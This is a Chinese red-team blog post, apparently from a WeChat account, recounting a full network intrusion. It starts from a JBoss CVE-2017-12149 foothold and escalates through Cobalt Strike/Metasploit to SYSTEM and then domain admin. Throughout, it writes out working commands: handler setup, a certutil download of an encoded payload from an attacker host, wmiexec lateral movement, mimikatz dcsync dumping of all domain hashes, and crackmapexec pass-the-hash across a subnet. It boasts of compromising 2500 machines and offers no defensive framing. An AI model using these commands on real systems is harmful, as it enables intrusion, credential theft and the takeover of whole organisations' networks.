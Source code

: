 #  一次利用 Metasploit 进行特权提权，再到 2500 台主机的内网域渗透

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#域内渗透 38 个

#内网渗透 22 个

#红队攻击 45 个

## 前言

首先是通过 **CVE-2017-12149** 拿到了一个口子：

![](https://gitee.com/fuli009/images/raw/master/public/20220324131944.png)

但其实 Jboss 的这个路径可以查看到日志 http://redteam.red:9090/status 发现有日志，已经被上传了 webshell：

![](https://gitee.com/fuli009/images/raw/master/public/20220324131946.png)

后来通过 Bypass 后使用 powershell 上线到 CobaltStrike：  

![](https://gitee.com/fuli009/images/raw/master/public/20220324131947.png)

## 利用 Metasploit 特权提权拿到 SYSTEM SHELL  

上线之后通过信息搜集发现有几百个补丁，通过已知漏洞提权无果：

![](https://gitee.com/fuli009/images/raw/master/public/20220324131948.png)

随后吧 CobaltStrike 的 Beacon 互传到了 Metasploit：  

    
    
    CS：  
    创建监听器windows/foreign/reverse_http  
    执行监听器 spawn msf  
      
    MSF：  
    use exploit/multi/handler  
    set payload windows/meterpreter/reverse_http  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324131949.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220324131950.png)

然后通过 Metasploit 的提权检测模块找到了几个提权 exp ：  

    
    
    run post/multi/recon/local_exploit_suggester  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324131951.png)

然后利用提权 exp :

![](https://gitee.com/fuli009/images/raw/master/public/20220324131953.png)

发现用户没变，但是当前特权变多了：  

![](https://gitee.com/fuli009/images/raw/master/public/20220324131954.png)

然后直接 getsystem 提权到 SYSTEM：  

![](https://gitee.com/fuli009/images/raw/master/public/20220324132000.png)

最后利用 SYSYEM 身份的把 shell 传到 Cobaltstrike：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132001.png)![](https://gitee.com/fuli009/images/raw/master/public/20220324132005.png)

当前权限就可以抓到密码了：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132006.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220324132008.png)

## 内网渗透  

虽然已经拿到 SYSTEM 会话身份，但是发现没有域管的进程，结果只能另寻他路！然后用抓到到密码去喷射域内其他主机：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132008.png)

然后横向 wmi 横向移动：  

    
    
     proxychains python3 wmiexec.py -shell-type cmd administrator:passwd@xx.xx.0.108 -codec gbk  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324132016.png)

之后发现 10.xx.0.156 有一个域管的进程：`tsklist /v`  

并且发现当前机器还有微软自带杀毒：  

![](https://gitee.com/fuli009/images/raw/master/public/20220324132018.png)

随后通过 Golang 做了一下免杀，然后让目标下载我们的 exe，通过 `certutil `下载我们的 exe：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132019.png)

然后运行发现有问题：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132021.png)

然后我吧 exe 编码成 txt：

    
    
    certutil -encode main.exe main.txt  
    

然后目标下载 txt 然后解码再运行：

    
    
    certutil.exe -urlcache -split -f http://redteam.red:80/download/main.txt  
      
    certutil -decode main.txt main.exe  
    

直接上线到 CobaltStrike：

![]()

然后先 getsystem 提权到 SYSYEM：  

![](https://gitee.com/fuli009/images/raw/master/public/20220324132022.png)

然后窃取域管的进程：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132023.png)![](https://gitee.com/fuli009/images/raw/master/public/20220324132024.png)

随后查询域控IP：

    
    
    shell net group "Domain Controllers" /domain  
    shell ping Controllers Computer (ping 域控机器名即可得到IP)  
    

直接拿到域控：

![](https://gitee.com/fuli009/images/raw/master/public/20220324132026.png)

最后直接 dcsync dump 域内全部 hash：  

    
    
    mimikatz lsadump::dcsync /domain:redteam.red /all /csv > c:\hash.txt  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324132028.png)

这个时候域内数千多个域用户的 hash 都拿到了，可以进行 pth，此时利用 administrator 的 hash 来对域内机器进行批量执行命令：

    
    
    proxychains crackmapexec smb 192.168.0.0/24 -u administrator -H xxxxxxxxxxxxxxxxxxxxx -d psnet.com -x "net user"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324132031.png)

最后使用 SharpHound.exe 查看下域内信息：

    
    
    execute-assembly /Users/saulgoodman/Downloads/SharpHound.exe -c all  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220324132032.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220324132033.png)

看了看，内网 5000 多个用户，2500 多台机器都沦陷，没啥难度。

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

